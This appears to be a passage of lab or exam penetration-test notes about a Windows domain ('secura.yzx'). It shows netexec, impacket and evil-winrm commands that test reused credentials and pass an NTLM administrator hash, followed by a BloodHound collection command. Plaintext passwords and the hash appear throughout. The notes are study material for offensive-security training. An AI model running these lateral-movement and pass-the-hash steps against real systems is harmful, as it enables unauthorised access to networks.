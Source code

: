 # Check accesses

```bash
# SMB         192.168.240.96  445    ERA              [+] ERA\apache:New2Era4.!
netexec smb 192.168.131.96 -u 'ERA\apache' -p 'New2Era4.!' --shares 
# => only standard shares with read permission
impacket-psexec 'apache':'New2Era4.!'@192.168.131.96
# [-] share 'ADMIN$' is not writable.
# [-] share 'C$' is not writable.
# => Fails do not writeable shares
impacket-wmiexec 'apache':'New2Era4.!'@192.168.131.96
impacket-smbexec 'apache':'New2Era4.!'@192.168.131.96
# => wmiexec and smbexec also do not work

# SMB         192.168.240.95  445    SECURE           [+] SECURE\Administrator:a51493b0b06e5e35f855245e71af1d14 (Pwn3d!)
netexec smb 192.168.131.95 -u 'SECURE\Administrator' -H 'a51493b0b06e5e35f855245e71af1d14' --shares
# => only standard shares

# WINRM       192.168.240.95  5985   SECURE           [+] SECURE\Administrator:a51493b0b06e5e35f855245e71af1d14 (Pwn3d!)
evil-winrm -i 192.168.131.95 -u administrator -H a51493b0b06e5e35f855245e71af1d14
# => does work

# WINRM       192.168.240.96  5985   ERA              [+] ERA\apache:New2Era4.! (Pwn3d!)
evil-winrm -i 192.168.131.96 -u apache -p 'New2Era4.!'
# => works

# RDP         192.168.240.95  3389   SECURE           [+] SECURE\Administrator:a51493b0b06e5e35f855245e71af1d14 (Pwn3d!)
# => does not work
```

# BloodHound

```bash
sudo bloodhound-ce-python -d 'secura.yzx' -dc DC01.secura.yzx -ns 192.168.131.97 -u 'Eric.Wallows' -p 'EricLikesRunning800' -c all
```

Run BloodHound-CE as per notes.

Results from Queries:
- No Kerberoastable Users
- No AS-REP roastable Users

No other interesting info found.

# VM02 - User "apache"

Access VM02 as apache:
```bash
evil-winrm -i 192.168.147.96 -u apache -p 'New2Era4.!'
```
